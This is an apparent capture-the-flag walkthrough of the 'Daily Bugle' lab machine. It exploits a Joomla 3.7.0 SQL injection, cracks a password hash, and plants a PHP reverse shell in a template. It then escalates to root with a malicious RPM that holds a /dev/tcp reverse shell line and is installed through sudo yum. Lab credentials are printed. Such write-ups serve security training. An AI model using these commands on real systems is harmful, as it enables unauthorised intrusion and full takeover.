








Daily Bugle
nmap shows 22,80,3306 open
22 - SSH
80 - Web server
3306 - MariaDB
We browse throught the news webserver. We find the /administrator directory through gobuster.
However, we do not have any credentials.
We check wappalyzer to confirm joomla running on the webserver.
To get the version use the following Link/Command.
https://www.itoctopus.com/how-to-quickly-know-the-version-of-any-joomla-website
For our case:
http://10.10.42.252/administrator/manifests/files/joomla.xml
We get the version as 3.7.0
searchsploit 3.7.0

We get the file by: searchsploit -m php/webapps/42033.txt
Upon reading the file. It says to use sqlmap to exploit the vulnerability. However, sqlmap didn't find any intresting stuff.
Upon searching google for “Joomla 3.7.0 Python exploit”
We find the following code:
https://github.com/XiphosResearch/exploits.git
In the git link, go to Joomblah directory and use the joomblah.py file

Now, we need to crack the hash using john.
echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' > hash_joomla
john hash_joomla --wordlist=/usr/share/wordlists/rockyou.txt

Now, we have a username and password.
Username : jonah
Password : spiderman123
We use this login credentials at http://10.10.42.252/administrator page to login into joomla control panel as super user.
To get a shell from here on there are multiple options. (***Check research***)
We will use the templates section.
Go to Extensions -→ Templates -→ Templates

Then click on Beez3 Details and Files
Now, open the index.php and replace a php-reverse-shell code in that place.
Run a listner in attacker machine.
Then to exploit the malicious php file click on “Template Preview”
Now we will have gained a shell in our attacker machine.
Privelege Escalation
Next we check for ways to elevate our privelege.
sudo -l - Nothhing
/etc/crontab - Nothing
suid files - Nothing
We then browse the web server folder and find a file called “configuration.php”
/var/www/html/configuration.php

We find a password:
Upon enumeration we that the password is user password for jjameson.
Username : jjameson
Password : nv5uz9r3ZEDzVjNu
we can now ssh to the machine as jjameson and get the user flag.
Then we do sudo -l

We find yum is running in sudo.
Thus we use GTFObins to use this for privelege escalation.
Note: We will create a malicious rpm file which will execute code upon installation.
Tool used: fpm
(gem install fpm)
Commands in Attacker Machine:
TF=$(mktemp -d)
echo 'id' > TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF

Note: This will run the ‘id’ command upon installation.
We can tweak this to run a reverse shell.
TF=$(mktemp -d)
echo '/bin/sh -i >& /dev/tcp/10.11.72.31/8888 0>&1' > $TF/y.sh
fpm -n y -s dir -t rpm -a all --before-install $TF/y.sh $TF

Host these files in a python web server.
And start a netcat listener.
Commands in Target Machine(ssh session of jjameson):
wget http://10.11.72.31/x-1.0-1.noarch.rpm
wget http://10.11.72.31/y-1.0-1.noarch.rpm
Then we run the following to install the malicious rpm and run our commands.
sudo yum localinstall -y x-1.0-1.noarch.rpm
This will run the ‘id’ command upon installation.
sudo yum localinstall -y y-1.0-1.noarch.rpm
This will run a reverse shell as root/
Note: To remove the installation.( Say to run again)
sudo yum remove x-1.0-1
or
sudo yum remove y-1.0-1
Now in the root shell get the root flag
Thanks!!